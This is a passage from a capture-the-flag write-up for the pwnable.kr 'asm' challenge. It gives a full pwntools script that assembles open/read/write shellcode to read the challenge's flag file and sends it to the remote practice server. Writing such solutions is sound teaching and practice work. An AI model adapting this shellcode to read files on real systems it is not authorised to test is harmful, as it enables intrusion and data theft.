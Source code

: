 ```c
}
```

The given assembly `stub` that will run first is just zeroing out all the registers.

We generate shellcode with pwntools.

It's easy and cool.

EXP: 

```python
#!/usr/bin/pyhton3
# coding = utf-8

from pwn import *

context.arch = "amd64"
context.os = "linux"

def makePayload():
    shellcode = shellcraft.open("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
    shellcode += shellcraft.read("rax", "rsp", 0x100)
    shellcode += shellcraft.write(1, "rsp", 0x100)
    shellcode = asm(shellcode)
    return shellcode

def main():
    payload = makePayload()
    payload = payload.ljust(1000, b"k")
    print(payload)
    r = remote("pwnable.kr", 9026)
    r.recvuntil(b"give me your x64 shellcode: ")
    r.sendline(payload)
    print(r.recv())

if __name__ == "__main__":
    main()
```

### unlink
